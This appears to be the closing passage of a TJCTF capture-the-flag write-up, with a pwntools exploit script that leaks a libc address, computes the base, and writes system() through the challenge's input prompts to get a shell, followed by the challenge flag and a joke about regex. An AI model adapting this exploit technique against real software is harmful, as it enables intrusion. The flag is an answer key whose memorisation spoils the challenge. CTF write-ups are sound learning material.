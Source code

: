 ```python
p.recvuntil(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x08@@\n")
libc.address=int(p.recvuntil(b":")[:-1])
p.recvuntil(b"- ")
libc.address=libc.address | (u16(p.recv(2))<<32)
libc.address-=0x87be0
log.info(hex(libc.address))

p.recvuntil("Event time? (1-24)")
p.sendline(str(libc.symbols.system&0xffffffff))
p.recvuntil("Event name? ")
p.sendline(p32(libc.symbols.system>>32))

p.interactive()
```

thanks for sticking out this long , hope you liked this scuffed writeup and see you on the rift .

_tjctf{i_h0pe_my_tre3s_ar3nt_b4d_too}_

_If regex has a million haters I'm one of them. If it has one hater it's me. If it has 0 haters I have died. If the world is against regex I am with the world, if the world is for regex I am against the world._
